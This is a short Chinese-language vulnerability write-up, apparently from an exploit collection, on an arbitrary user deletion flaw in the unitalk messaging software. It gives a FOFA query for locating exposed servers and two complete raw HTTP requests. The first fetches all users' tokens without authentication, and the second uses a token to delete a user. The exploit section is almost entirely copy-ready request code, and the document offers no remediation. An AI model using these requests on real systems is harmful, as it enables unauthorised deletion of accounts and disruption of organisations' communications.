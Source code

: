 # unitalk存在任意用户删除漏洞

# 一、漏洞简介
unitalk是一款即时通讯软件，unitalk存在任意用户删除漏洞

# 二、影响版本
+ unitalk

# 三、资产测绘
+ fofa`title="unitalk"`
+ 特征

![1723520849027-9f8e29d4-1ac6-46e0-b014-eb6ac435cc13.png](./img/S4lPrhEtVBKiZ1xe/1723520849027-9f8e29d4-1ac6-46e0-b014-eb6ac435cc13-094725.png)

# 四、漏洞复现
先获取token

```plain
POST /unitalk/v1.0/user/getallusers.json HTTP/1.1
Host: 172.18.14.68:7778
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/113.0.0.0 Safari/537.36 Edg/113.0.1774.35
Content-Type: application/json;charset=UTF-8

{}
```

![1723521739904-fc153017-0a38-40a5-9656-f51032a33d77.png](./img/S4lPrhEtVBKiZ1xe/1723521739904-fc153017-0a38-40a5-9656-f51032a33d77-141909.png)

删除用户

```plain
POST /unitalk/v1.0/user/delete.json HTTP/1.1
Host: 172.18.14.68:7778
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Content-Length: 48

{"token":"87535651-49c2-4a19-8aeb-401fc16c2366"}
```

![1723521790592-8117867d-3825-480f-8ec9-3db0f77d5693.png](./img/S4lPrhEtVBKiZ1xe/1723521790592-8117867d-3825-480f-8ec9-3db0f77d5693-876257.png)



> 更新: 2024-09-05 23:21:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/itmebnwadmoelggp>